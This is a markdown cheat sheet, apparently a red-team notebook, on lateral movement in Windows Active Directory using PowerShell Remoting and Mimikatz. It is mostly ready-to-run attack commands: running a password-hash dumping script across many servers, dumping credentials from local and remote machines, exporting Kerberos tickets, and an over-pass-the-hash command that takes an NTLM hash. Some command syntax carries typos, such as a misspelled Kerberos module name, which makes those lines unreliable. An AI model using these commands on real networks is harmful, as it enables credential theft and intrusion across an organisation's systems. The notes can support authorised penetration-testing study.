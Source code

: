 # Lateral Movement
---
# Navigation
- **[[#PowerShell Remoting]]**
- **[[#Mimikatz]]**
---
# PowerShell Remoting
- Enabled by deafult on server 2012 onwards.
- On desktop windows machines you may need to enable it `Enable-PSRemoting` (Require admin privs).
- You get elevated shell on remote system if admin creds are used to authenticate (Default setting).

## One-to-One
### PSSession
- interactive
- Runs in a new process (wsmprovhost)
- Is stateful.
### Useful cmdlets
```powershell
New-PSSession
Enter-PSSession
```
## One-to-many
- Also know as Fan-Out-Remoting
- Non-interactive
- Executes commands parallely
- Runs Commands and scripts on
-- Multiple computers
-- In disconnected sessions (v3)
-- As background jobs and more
### Useful cmdlets
```powershell
Invoke-Command -ComputerName <ComputerName>
Invoke-Command -ComputerName (Get-Content <List-of-servers>)
Invoke-Command -ComputerName -Credential # To pass username/password
```
#### Usage Example
```powershell
#To execute a command remotely 
Invoke-Command -scriptblock {whoami;Get-Process} -ComputerName <value> -Credential <Creds>

#To execute script remotely
Invoke-Command -FilePath C:\Path\Get-PassHashes.ps1 -ComputerName (Get-Content <List-of-servers>)

#Whenever you get an error when executing commands/scripts on remote machine check for Language mode because if it's in constrained mode you won't be able to execute anything but built-in cmdlets
Invoke-Command -scriptblock {$ExecutionContext.SessionState.LanguageMode} -ComputerName <value> -Credential <Creds>
```
---
# Mimikatz
- This script is used to dump credentials,tickets and more.
- Mimikatz with PowerShell is done without dropping `mimikatz.exe` to disk.
- It is useful for passing and relaying hashes,tickets and for many active directory attacks.
- The script needs admin privs for dumping creds from local machine.
### Usage
```powershell
#Powersploit module
#Dump credentials on a local machine (Default)
Invoke-Mimikatz -DumpCreds

#Dump creds on multiple remote machines
Invoke-Mimikatz -DumpCreds -ComputerName @("system1","system2")

#Above commands uses PowerShell cmdlet "Invoke-Command" to do their jobs.
```
### Export all kerberoas tickets to disk.
```powershell
#Powersploit module
Invoke-Mimikatz -command '"kerberoas::list /export"'
```
### "Over pass the hash" generate tokens from hashes.
```powershell
#Powersploit module
Invoke-Mimikatz -command '"sekurlsa::pth /user:administrator /domain <DOMAIN> /ntlm:<NTLM> /run:powershell.exe"'
```
